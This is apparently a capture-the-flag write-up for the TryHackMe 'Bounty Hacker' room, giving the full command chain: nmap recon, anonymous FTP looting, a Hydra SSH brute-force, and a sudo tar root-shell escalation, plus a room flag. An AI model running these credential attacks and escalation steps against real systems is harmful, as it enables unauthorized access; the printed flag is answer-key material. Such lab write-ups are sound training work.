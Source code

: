# 🏴‍☠️ TryHackMe — Bounty Hacker Writeup

> **Difficulty:** Easy  
> **Category:** Web / Linux / PrivEsc  
> **Goal:** Gain user & root flags

---

## 🧩 Room Overview
**Bounty Hacker** is a beginner-friendly CTF that mirrors a small real-world engagement: reconnaissance, enumeration, credential attack, SSH foothold, and privilege escalation via a sudo misconfiguration.

> ⚠️ **CTF Etiquette:** Avoid publishing full flag values in public writeups. Below I mask the root flag and keep the user flag as seen in-session. Adjust to your preference.

---

## 🔧 Lab Setup
- Attacker: **Kali Linux** (VM)  
- Connection: **TryHackMe OpenVPN**  
- Target: THM instance `10.10.xx.xx` (IP varies per deployment)

---

## 🔎 Step 1 — Recon with Nmap
Identify open ports & service versions.

```bash
nmap -sC -sV -oN bounty_scan.txt 10.10.xx.xx
```

**Flags:**
- `-sC` — run default scripts (great baseline enumeration)
- `-sV` — detect service versions
- `-oN` — save output to a file

**Findings:**
- **21/tcp FTP** — `vsftpd 3.0.5` (anonymous login allowed)
- **22/tcp SSH** — `OpenSSH 8.2p1`
- **80/tcp HTTP** — `Apache 2.4.41`

---

## 📂 Step 2 — Enumerate FTP
Anonymous login and loot collection.

```bash
ftp 10.10.xx.xx
# username: anonymous
# password: <press Enter>
ls -la
get task.txt
get locks.txt
bye
```

---

## 📝 Step 3 — Loot Analysis
- `task.txt` → reveals **username**: `lin`
- `locks.txt` → a **password wordlist** (likely for SSH)

---

## 🔐 Step 4 — Brute-force SSH (Hydra)
Use the leaked wordlist against SSH.

```bash
hydra -l lin -P locks.txt ssh://10.10.xx.xx -t 4
```

**Result (example):**
```
[22][ssh] host: 10.10.xx.xx  login: lin  password: RedDr4gonSynd1cat3
```

---

## 💻 Step 5 — Initial Foothold (SSH)
```bash
ssh lin@10.10.xx.xx
```

Grab the user flag:

```bash
cat ~/Desktop/user.txt
THM{CR1M3_SyNd1C4T3}
```

---

## 📈 Step 6 — Privilege Escalation
Check sudo permissions:

```bash
sudo -l
```

Output shows `lin` may run **/bin/tar** as root:

```
User lin may run the following commands on host:
    (root) /bin/tar
```

Use the **GTFOBins** technique for `tar` to spawn a root shell:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Confirm and read root flag:

```bash
whoami
# root
cat /root/root.txt
THM{<root_flag_masked>}
```

---

## 🧠 Key Takeaways
- **Recon first**: `nmap -sC -sV` quickly surfaces low-hanging fruit (anonymous FTP).
- **Loot matters**: Seemingly harmless files often reveal **usernames** and **password patterns**.
- **Hydra** is effective for **credential attacks** with custom wordlists.
- **Sudo misconfigs** + **GTFOBins** are core privilege escalation patterns.
- Keep clean notes & save outputs (`-oN`, text files) for repeatability.

---

## 📜 Commands (TL;DR)
```bash
# Recon
nmap -sC -sV -oN bounty_scan.txt 10.10.xx.xx

# FTP
ftp 10.10.xx.xx
# anonymous / <Enter>
ls -la
get task.txt
get locks.txt
bye

# Hydra SSH brute-force
hydra -l lin -P locks.txt ssh://10.10.xx.xx -t 4

# SSH access
ssh lin@10.10.xx.xx

# User flag
cat ~/Desktop/user.txt

# PrivEsc
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# Root flag
whoami
cat /root/root.txt
```

---

## 🗂 Suggested Repo Structure
```
bounty-hacker-writeup/
├─ README.md                  # Short overview & links
├─ Bounty_Hacker_Writeup.md   # This detailed writeup
├─ loot/                      # (optional) sanitized artifacts
│  ├─ task.txt
│  └─ locks.txt
└─ screenshots/               # (optional) images referenced in the MD
```

---

## 📎 References
- GTFOBins — `tar`: https://gtfobins.github.io/gtfobins/tar/
- TryHackMe — Bounty Hacker (room page)
